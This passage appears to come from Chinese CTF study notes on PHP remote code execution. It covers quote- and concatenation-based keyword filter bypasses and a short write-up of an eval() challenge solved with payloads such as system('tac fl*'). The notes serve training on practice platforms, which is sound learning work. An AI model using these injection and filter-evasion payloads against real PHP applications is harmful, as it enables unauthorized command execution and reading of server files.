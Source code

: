 ```PHP
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```

#### 单双引号

- 单引号----`''`
- 双引号---`""`
- 反斜杠--- `\`

我们可以通过`ca''t ca""t c"a"t ca\t`这样来bypass

## 文件包含

...

## 题目：

Base：

1. [SWPUCTF 2021 新生赛]finalrce

https://www.nssctf.cn/problem/438

1. Babyrce

https://www.nssctf.cn/problem/42578

1. Ctfhub-RCE模块

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=YWU1Yzc0ZTY4ZWRhMjViMDZiYzA3NGJlZWMxNGM2NmVfS1o3MjdySWlOMFE2MlBIRWNKMm84ZGtDWGFJcXZEUmhfVG9rZW46UE5pNWI0YlJVb0t5bDV4MGZaUWNCV2JTbmdnXzE3MzYzMzE4NDk6MTczNjMzNTQ0OV9WNA)

https://www.ctfhub.com/#/skilltree

### 示范-WP

#### 第一题

```PHP
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
```

ban了"flag"这个字符利用匹配

```Python
?c=system("tac fl*");
?c=system("tac fla''g.php");
?c=system("tac fla``g.php");
```

#### 第二题

相比于上一题多ban了`php` , `system`
